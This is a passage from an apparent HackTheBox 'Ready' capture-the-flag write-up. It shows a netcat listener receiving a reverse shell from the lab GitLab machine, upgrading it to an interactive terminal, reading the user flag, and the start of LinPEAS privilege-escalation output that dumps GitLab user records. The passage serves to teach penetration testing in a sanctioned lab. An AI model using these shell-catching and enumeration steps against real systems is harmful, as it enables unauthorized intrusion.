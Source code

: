 Look at the netcat listener:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/ready]
└─$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.16.6] from (UNKNOWN) [10.10.10.220] 47710
which python
which python3
/opt/gitlab/embedded/bin/python3
python3 -c 'import pty; pty.spawn("/bin/bash")'
git@gitlab:~/gitlab-rails/working$ export TERM=xterm
export TERM=xterm
git@gitlab:~/gitlab-rails/working$ ^Z
zsh: suspended  nc -lvnp 443

┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/ready]
└─$ stty raw -echo; fg
[1]  + continued  nc -lvnp 443

git@gitlab:~/gitlab-rails/working$ ^C
git@gitlab:~/gitlab-rails/working$
```

There is the shell as user git.

## User Flag

---

Let's check if I'm able to read the user flag:

```bash
git@gitlab:~/gitlab-rails/working$ cd /home 
git@gitlab:/home$ ls
dude
git@gitlab:/home$ cd dude
git@gitlab:/home/dude$ ls
user.txt
git@gitlab:/home/dude$ cat user.txt
e1**************************7682
```

I could obtain the flag. It's time to privesc.

# Privilege Escalation

---

One of the most standard tool is LinPEAS, so I run it. Here are the most important things it found:

```bash
╔══════════╣ Searching GitLab related files                                                                                                                                                                         
gitlab-rails was found. Trying to dump users...                                                                                                                                                                     
{"id"=>1,                                                                                                                                                                                                           
 "email"=>"admin@example.com",                                                                                                                                                                                      
```